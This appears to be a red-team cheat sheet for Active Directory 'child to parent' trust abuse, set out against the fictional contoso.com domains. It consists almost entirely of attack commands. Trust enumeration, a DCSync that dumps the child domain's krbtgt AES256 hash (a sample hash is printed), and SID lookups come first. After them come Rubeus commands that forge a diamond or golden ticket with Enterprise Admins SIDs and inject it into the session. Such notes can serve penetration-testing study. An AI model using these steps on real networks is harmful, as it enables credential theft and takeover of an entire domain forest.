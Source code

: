 
##### Child to Parent Abuse

Enumerate trusts in place
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

Obtain krbtgt AES256 hash of the child domain
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9
```

Obtain child domain SID and parent domain SID
```powershell
ldapsearch (objectClass=domain) --attributes objectSid

ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
```

Create diamond ticket (OPSEC SAFE) or a golden ticket offline
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-3926355307-1661546229-813047887-519 /krbkey:2eabe80498cf5c3c8465bb3d57798bc088567928bb1186f210c92c1eb79d66a9 /nowrap

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[Child SID] /sids:[Parent EA GROUP SID] /aes256:[Child KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden
```

Inject ticket into current session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]
```